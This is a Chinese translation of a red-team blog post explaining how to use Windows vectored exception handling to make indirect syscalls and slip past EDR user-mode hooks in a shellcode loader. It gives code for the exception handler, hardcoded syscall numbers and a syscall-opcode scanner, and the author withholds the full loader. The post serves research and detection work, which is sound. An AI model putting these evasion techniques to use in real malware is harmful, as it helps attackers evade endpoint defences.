









通过 VEH（Vectored Exception Handling）进行 syscall

- - -

原文链接：[Syscalls via Vectored Exception Handling](https://redops.at/blog/syscalls-via-vectored-exception-handling)

# 通过 VEH（Vectored Exception Handling）进行 syscall

## 前言

在恶意软件开发的语境中，我遇到过术语 Vectored Exception Handling 或 Vectored Exception Handlers（简称 VEH），但直到现在我还没有真正掌握这个术语或主题。在准备即将到来的终端安全见解研讨会时，我在[cyberwarfare](https://cyberwarfare.live/bypassing-av-edr-hooks-via-vectored-syscall-poc/)的以下文章中再次遇到了“Vectored Exception Handling”一词。这篇文章激起了我的好奇心，并促使我更多地了解这个话题。与往常一样，当我自己写一个主题、准备演示文稿或类似的东西时，我能学得最好。

基于 cyberwarfare 的文章，我想讨论通过 syscall shellcode 的这个大主题中的 vectored exception handling 主题，并仔细研究所需的代码。

首先，我要感谢我的两位同事 Jonas Kemmner 和 Robert Rostek，他们一直积极支持我，并在我的文章发表前进行校对。

### 免责声明：

本文内容仅用于研究目的，不得在不道德或非法的情况下使用！

## EDR 钩子和规避

原则上，有不同类型的 API 钩子，但 EDR（如 CrowdStrike、Sentinel One、Trend Micro 等）使用的常见形式是 inline API hook。简而言之，这种 hook 的执行流程就是在用户层用 5 字节无条件跳转指令 jmp 到 EDR 的检测中。这种重定向允许 EDR 在 Windows API 的上下文中动态分析正在运行的应用程序，并检测恶意行为。简单来说，inline API hook 可以看作是进程级代理。如果 EDR 检测到正在执行的代码和参数不是恶意的，则仅返回到原始函数地址并执行从用户层过渡到内核层所需的系统调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005205-ba2e22aa-c37d-1.jpg)

从红队或恶意攻击者的角度来看，你最不希望看到的就是 EDR 以这种方式分析你的恶意软件，并可能检测到并阻止其运行。因为这个原因，恶意软件开发人员近年来变得非常有创造力，现在可以使用各种不同的用户层 hook 规避技术。例如，攻击者可能会尝试使用各种脱钩或 patch 用户层挂钩的 DLL，例如 ntdll.dll 或 kernel32.dll。

或者，可以使用直接或间接系统调用等技术。对于实现，例如在 shellcode loader 中，使用相应的 native API 而不是 Windows API，例如 `NtAllocateVirtualMemory` 替换 `VirtualAlloc`。通过直接实现原生 API 或原生 API 的 syscall stub，shellcode loader 不再需要访问 kernel32.dll 和 ntdll.dll，因此可以绕过用户层钩子。还应该注意的是，EDR 将其钩子放在其他 DLL 中，例如 user32.dll、win32u.dll、kernelbase.dll 等。不同的 EDR 之间，放置的钩子总数差异很大。有些 EDR 总共放置 30 个钩子，而其他 EDR 最多使用 80 个钩子或更多。

根据使用的是直接系统调用或者间接系统调用，执行所用本机 API 的 syscall 和 return 语句的内存会有所不同。当使用直接系统调用时，使用汇编指令直接在恶意软件中实现完整的 syscall stub。同样，syscall 和 return 指令在恶意软件（.exe）的内存区域内执行。

```plain
.CODE  ; direct syscalls assembly code 
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                 ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                 ; Move the syscall number into the eax register.
    syscall                      ; Execute syscall.
    ret                          ; Return from the procedure.
NtAllocateVirtualMemory ENDP     ; End of the procedure
```

从恶意软件开发者的视角来看：如何 syscall（direct syscall）是由 windows 下用户层应用直接执行，从 EDR 的视角来看，这会导致一个非常清晰的入侵特征 (Indicator of Compromise，IOC)，例如，在这种情况下，可以使用 windows 事件跟踪（Event Tracing for Windows，ETW）来分析应用程序（恶意软件）线程的堆栈调用情况。下图展示了一个恶意软件在使用直接系统调用（direct syscall）时线程堆栈的异常情况以及跟合法程序对比下堆栈调用的不同顺序。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005248-d3e5b398-c37d-1.jpg)

为了解决这个问题，或者是为了让恶意软件的线程堆栈调用更合法一些，直接系统调用已经发展到了间接系统调用。使用间接系统调用意味着 syscall 和 return 指令在 ntdll.dll 内存中的 syscall stub 执行。此行为在 Windows 上是合法的，与直接系统调用相比，间接系统调用实现线程调用堆栈的更高合法性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005314-e3009da2-c37d-1.jpg)

间接系统调用可以在汇编程序中使用无条件跳转指令 jmp 以编程方式完成。使用 mov 指令将系统服务编号（SSN）移动到 eax 寄存器后，jmp 指令用于重定向到 ntdll.dll 的内存区域。然后，系统调用和返回指令在 ntdll.dll 的内存区域内的 syscall stub 的末尾执行。

```plain
.CODE  ; indirect syscalls assembly code
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                  ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                  ; Move the syscall number into the eax register.
    jmp QWORD PTR [sysAddrNtAllocateVirtualMemory]  ; Jump to the actual syscall memory address in ntdll.dll
NtAllocateVirtualMemory ENDP      ; End of the procedure
```

然而，间接系统调用的概念，即在 ntdll.dll 内存中特定本机 API 的上下文中执行系统调用和返回语句，不能仅通过在 C 下实现汇编代码来实现。也可以通过使用向量异常处理来实现相同的行为。这在 C 语言中是如何工作的，例如在 shellcode 加载器的代码中，本文基于 Cyberwarfare 文章进行了解释。

## VEH (Vectored Exception Handling)

[异常向量处理](https://learn.microsoft.com/en-us/windows/win32/debug/vectored-exception-handling) （VEH）是在 Windows XP 中引入的，而且它是异常处理机制的一部分，用于处理程序执行过程中可能发生的错误（例如除以零）和异常条件或例外情况（例如非法内存访问）。异常向量处理是更广泛的 [Windows 结构化异常处理](https://learn.microsoft.com/en-us/cpp/cpp/structured-exception-handling-c-cpp?view=msvc-170) （SEH）框架的一部分。与专门为函数或代码块定义的 SEH 不同，VEH 是整个应用程序的全局变量，当程序执行期间发生错误时，它会在标准的结构化异常处理程序之前调用。

handler 使用 [PVECTORED\_EXCEPTION\_HANDLER](https://learn.microsoft.com/en-us/windows/win32/api/winnt/nc-winnt-pvectored_exception_handler) 实现，使用 Windows API [AddVectoredExceptionHandler](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-removevectoredexceptionhandler) 调用或注册，并使用 [RemoveVectoredExceptionHandler](https://learn.microsoft.com/en-us/windows/win32/api/errhandlingapi/nf-errhandlingapi-removevectoredexceptionhandler) 取消注册。可以在 [EXCEPTION\_RECORD](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-exception_record) 结构中使用 [ExceptionCode](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-exception_record) 成员来指定应触发处理程序的异常。通过异常向量处理，开发人员可以实现自定义和特定的逻辑来处理异常，例如`EXCEPTION_ACCESS_VIOLATION、EXCEPTION_BREAKPOINT、EXCEPTION_FLT_DIVIDE_BY_ZERO`等，并更好地控制程序如何响应各种错误场景。

以下 C 语言代码显示了如何使用 `VectoredExceptionHandler` 定义 VEH 函数的示例。该代码还演示如何使用`AddVectoredExceptionHandler` 和 `RemoveVectoredExceptionHandler` 在 main 函数中注册和取消注册 `Vectored Exception Handler`。

```plain
#include <windows.h>
#include <stdio.h>

// Prototype of the VEH function
LONG CALLBACK VectoredExceptionHandler(EXCEPTION_POINTERS *ExceptionInfo);

// Implementation of the VEH function
LONG CALLBACK VectoredExceptionHandler(EXCEPTION_POINTERS *ExceptionInfo) {
    // Check if it's an access violation
    if (ExceptionInfo->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        printf("Access violation detected!\n");
        // Handle the exception here
        // ...
    }

    // Additional exceptions can be handled here
    // ...

    // EXCEPTION_CONTINUE_SEARCH indicates that the next handler function should be called
    return EXCEPTION_CONTINUE_SEARCH;
}

int main() {
    // Add the Vectored Exception Handler
    PVOID handle = AddVectoredExceptionHandler(1, VectoredExceptionHandler);

    // Normal code can be added here
    // ...

    // Remove the Vectored Exception Handler before exiting the program
    RemoveVectoredExceptionHandler(handle);

    return 0;
}
```

但是，红队和攻击者也使用异常向量处理，并且可以通过在其恶意软件中实施 VEH 来混淆代码执行流程或加速 shellcode 执行。例如，以下来自 [CrowdStrike](https://www.crowdstrike.com/blog/guloader-dissection-reveals-new-anti-analysis-techniques-and-code-injection-redundancy/) 的文章或来自 [Elastic Security Labs](https://www.elastic.co/security-labs/getting-gooey-with-guloader-downloader) 的文章很好地展示了 GULOADER 恶意软件如何使用向量异常处理来混淆代码执行流程（反调试），从而使逆向工程的手动分析更加困难。

## Vectored Syscalls

如上所述，本文将探讨如何在 shellcode 加载器中实现 VEH 来通过系统调用运行 shellcode。我使用了 cyberwarefare（可以在 [Github](https://github.com/RedTeamOperations/VEH-PoC/) 上找到）中的代码作为我的 shellcode 加载器的基础。由于出于 OPSEC 的原因，我尽可能避免远程注入，因此我为自己重写了 shellcode 加载器，以便 shellcode 的执行发生在要执行的加载器中（自注入）。我不想在这里发布重写的代码，但我可以在 shellcode 执行部分的代码中解释 VEH 的原理。

通过 VEH 或 vectored syscall 有什么意义？简单地说，我们希望通过定义一个 VEH 函数并故意抛出异常，通过 VEH 函数实现系统调用执行。就像我们接下来会看到的，这允许我们以间接系统调用的形式执行 shell 代码，但不必在代码中实现汇编指令。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005337-f109cff4-c37d-1.jpg)

在下文中，我们将介绍通过向量异常处理实现系统调用所需的最重要的代码元素，我将尝试解释它们是如何工作的。

## 向量异常处理函数

第一步是查看向量异常处理程序函数 `PvectoredExceptionHandler`，稍后通过 Windows API `AddVectoredExceptionHandler` 在 main 函数中调用该函数。该函数是通过 `PVECTORED_EXCEPTION_HANDLER` 定义的。在函数中，`EXCEPTION_RECORD`用于定义触发对向量异常处理程序的传递的条件。更具体地说，我们在 EXCEPTION\_RECORD 中定义 `ExceptionCode` 成员的值。在本例中，我们将值 `EXCEPTION_ACCESS_VIOLATION` 分配给 `ExceptionCode` 成员。我们接下来将看到我们到底为什么要定义这个异常，以及它是如何触发的。

```plain
// Vectored Exception Handler function
LONG CALLBACK PvectoredExceptionHandler(PEXCEPTION_POINTERS exception_ptr) {
    // Check if the exception is an access violation
    if (exception_ptr->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        // Modify the thread's context to redirect execution to the syscall address
        // Copy RCX register to R10
        exception_ptr->ContextRecord->R10 = exception_ptr->ContextRecord->Rcx;

        // Copy RIP (Instruction Pointer) to RAX (RIP keeps SSN --> RAX keeps SSN)      
        exception_ptr->ContextRecord->Rax = exception_ptr->ContextRecord->Rip;

        // Set RIP to global address (set syscalls address retrieved from NtDrawText to RIP register)       
        exception_ptr->ContextRecord->Rip = g_syscall_addr;

        // Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
}
```

想要通过向量异常处理实现系统调用，必须在 VEH 函数 `PvectoredExceptionHandler` 中另外定义 exception\_ptr 指针。但是跟之前不同的是，结构体 [CONTEXT](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-context) 用于访问所需的寄存器 `rcx、r10、rax、rip`。我们通过这些指针来构成通过 VEH 执行系统调用的基础。如果我理解正确的话，VEH 函数 PvectoredExceptionHandler 的结构体最终会复制本机 API 的 syscall stub 部分，该部分对于准备 SSN 和通过 syscall 执行 SSN 最终是必需的。下图说明了此类比。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005403-007848ee-c37e-1.jpg)

在 `PvectoredExceptionHandler`函数的末尾，[EXCEPTION\_CONTINUE\_EXECUTION](https://learn.microsoft.com/en-us/windows/win32/debug/exception-handler-syntax)用于指定在处理 `EXCEPTION_ACCESS_VIOLATION` 引发的异常后，程序执行应从引发异常的位置继续执行。如果抛出的异常不是由`EXCEPTION_ACCESS_VIOLATION`异常引发的，则会通过`EXCEPTION_CONTINUE_SEARCH`将其传递给下一个 VEH 函数。在我们的例子中，我们没有定义另一个 VEH 函数，因此它将传给结构化异常处理程序（SEH）。

```plain
// Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
```

## 异常触发

定义 VEH 函数后，必须找到一种方法来专门抛出`EXCEPTION_ACCESS_VIOLATION`异常。为此，所有原生 API（声明为指针）都通过对应的 SSN 直接在 shellcode 加载器中初始化。但是，由于定义为指针的变量（例如 `pNtAllocateVirtualMemory`）通常应指向内存地址而不是直接指向值，因此这会导致未授权的内存访问，从而通过`EXCEPTION_ACCESS_VIOLATION`触发 VEH 函数。

```plain
// Define syscall numbers for various NT API functions
enum syscall_no {
    SysNtAllocateVirtualMem = 0x18,    // Syscall number for NtAllocateVirtualMemory
    SysNtWriteVirtualMem = 0x3A,       // Syscall number for NtWriteVirtualMemory
    SysNtProtectVirtualMem = 0x50,     // Syscall number for NtProtectVirtualMemory
    SysNtCreateThreadEx = 0xC2,        // Syscall number for NtCreateThreadEx
    SysNtWaitForSingleObject = 0x4     // Syscall number for NtWaitForSingleObject
};

// Assign system call function pointers to their respective syscall numbers
_NtAllocateVirtualMemory pNtAllocateVirtualMemory = (_NtAllocateVirtualMemory)SysNtAllocateVirtualMem;
_NtWriteVirtualMemory pNtWriteVirtualMemory = (_NtWriteVirtualMemory)SysNtWriteVirtualMem;
_NtProtectVirtualMemory pNtProtectVirtualMemory = (_NtProtectVirtualMemory)SysNtProtectVirtualMem;
_NtCreateThreadEx pNtCreateThreadEx = (_NtCreateThreadEx)SysNtCreateThreadEx;
_NtWaitForSingleObject pNtWaitForSingleObject = (_NtWaitForSingleObject)SysNtWaitForSingleObject;
```

正如 cyberwarefare 的文章中所描述的，通过 SSN 初始化原生 API 的优点是可以有针对性地触发`EXCEPTION_ACCESS_VIOLATION`。另一方面，它的优点是 SSN 缓存在 rip 寄存器中，传递给向量异常处理程序，然后传递给 VEH 函数 `PvectoredExceptionHandler` 中的 rax 寄存器。

通过在 IDA 中进行调试，可以很好地看到这个过程。下图清楚地显示了尝试通过 SSN 初始化原生 API `NtAllocateVirtualMemory` `0x18`如何导致无效的内存访问尝试（[exc.code c0000005](https://stackoverflow.com/questions/17168982/exception-error-c0000005-in-vc)），从而引发访问冲突异常，传递到向量异常处理程序，将 `SSN 0x18`移动到 rip 寄存器，最后移动到 `rax` 寄存器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005418-0933c6ca-c37e-1.jpg)

原则上，这会在 rax 寄存器中准备 SSN（类似于使用汇编代码 `mov eax，SSN` 的准备），为了后续的 syscall 执行。此过程将重复进行，直到 shellcode 加载程序中使用的或通过 SSN 启动的所有原生 API 都已传递到向量异常处理程序，并在触发`EXCEPTION_ACCESS_VIOLATION`后进行处理。

注意：`NtAllocateVirtualMemory` 的 SSN 不一定必须 0x18，因为同一函数的 SSN 可能因 Windows 和 Windows 版本而异。

## 查找 Syscall 并返回

最后，为了在 VEH 函数 PvectoredExceptionHandler 中执行 SSN（已经在 rax 寄存器中），我们需要找到一种方法将 syscall 指令的内存地址传递给 rip 寄存器。

第一步是使用 Windows API `GetModuleHandleA` 访问 ntdll.dll 内存。下一步是使用 `GetProcAddress` API 访问原生 API，例如 `NtDrawText`。在这种情况下，我们访问哪个 API 并不重要，并且与我们使用哪个原生 API 来保留内存、复制 shellcode、执行 shellcode 等操作是独立的。

```plain
// Retrieve the module handle for ntdll.dll (Windows NT Layer DLL)
HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
if (hNtdll == NULL) {
    printf("Failed to get module handle for ntdll.dll\n");
    exit(-1);
}

// Retrieve the address of the NtDrawText function in ntdll.dll
FARPROC drawtext = GetProcAddress(hNtdll, "NtDrawText");
if (drawtext == NULL) {
    printf("Error GetProcess Address\n");
    exit(-1);
}
```

最终，只需使用 `FindSyscallAddr` 函数访问先前选择的原生 API `NtDrawText` 的基址，然后通过 while 循环使用操作码比较来查找 syscall stub 中的 syscall 和 return 语句。

```plain
// Function to find the syscall instruction within a function in ntdll.dll
BYTE* FindSyscallAddr(ULONG_PTR base) {
    // Cast the base address to a BYTE pointer for byte-level manipulation
    BYTE* func_base = (BYTE*)(base);
    // Temporary pointer for searching the syscall instruction
    BYTE* temp_base = 0x00;           

    // Iterate through the function bytes to find the syscall instruction pattern (0x0F 0x05)
    // 0xc3 is the opcode for the 'ret' (return) instruction in x64 assembly
    while (*func_base != 0xc3) {      
        temp_base = func_base;
        // Check if the current byte is the first byte of the syscall instruction
        if (*temp_base == 0x0f) {     
            temp_base++;
            // Check if the next byte completes the syscall instruction
            if (*temp_base == 0x05) { 
                temp_base++;
                // Check for 'ret' following the syscall to confirm it's the end of the function
                if (*temp_base == 0xc3) { 
                    temp_base = func_base;
                    break;
                }
            }
        }
        else {
            // Move to the next byte in the function
            func_base++;              
            temp_base = 0x00;
        }
    }
    // Return the address of the syscall instruction
    return temp_base;                
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005434-12962942-c37e-1.jpg)

下图使用 IDA 中的调试来演示如何首先使用 Windows API `GetModuleHandleA` 和 `GetProcAddress` 访问 ntdll 内存中本机 API `NtDrawtext` 的基址.dll 然后使用 cmp 执行 0xf、0x05（syscall）和 0xc3（return）的操作码比较。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205005445-1921de96-c37e-1.jpg)

syscall 指令的内存地址存储在 `g_syscall_addr` ，该变量声明为全局变量。

```plain
// Global variable to store the address of the syscall instruction
ULONG_PTR g_syscall_addr = 0x00;
```

最后，使用 `exception_ptr` 将内存地址（指向 NtDrawText 的 syscall stub 中的 syscall 指令）传递到 VEH 函数 `PvectoredExceptionHandler` 中的 rip 寄存器\`

```plain
// Vectored Exception Handler function
LONG CALLBACK PvectoredExceptionHandler(PEXCEPTION_POINTERS exception_ptr) {
    // Check if the exception is an access violation
    if (exception_ptr->ExceptionRecord->ExceptionCode == EXCEPTION_ACCESS_VIOLATION) {
        // Modify the thread's context to redirect execution to the syscall address
        // Copy RCX register to R10
        exception_ptr->ContextRecord->R10 = exception_ptr->ContextRecord->Rcx;

        // Copy RIP (Instruction Pointer) to RAX (RIP keeps SSN --> RAX keeps SSN)      
        exception_ptr->ContextRecord->Rax = exception_ptr->ContextRecord->Rip;

        // Set RIP to global address (set syscalls address retrieved from NtDrawText to RIP register)       
        exception_ptr->ContextRecord->Rip = g_syscall_addr;

        // Continue execution at the new instruction pointer
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    // Continue searching for another exception handler
    return EXCEPTION_CONTINUE_SEARCH;
}
```

```plain
// Set RIP to the syscall address for execution
exception_ptr->ContextRecord->Rip = g_syscall_addr;
```

提醒一下：当尝试通过 SSN 初始化原生 API 时，例如 NtAllocateVirtualMemory，我们已经能够通过访问冲突异常专门触发向量异常处理程序，并实现将 SSN 0x18 转移到 rip 或 rax 寄存器。由于我们现在在本机 API NtDrawText 的上下文中拥有了 syscall 指令的有效内存地址，因此我们最终可以通过向量异常处理执行原生 API NtAllocateVirtualMemory 的系统调用。

如上所述，此过程将重复进行，直到在抛出 EXCEPTION\_ACCESS\_VIOLATION、处理并最终执行 shellcode 后，shellcode 加载器中使用的或通过 SSN 启动的所有本机 API 都分别传递给向量异常处理函数。

## 总结

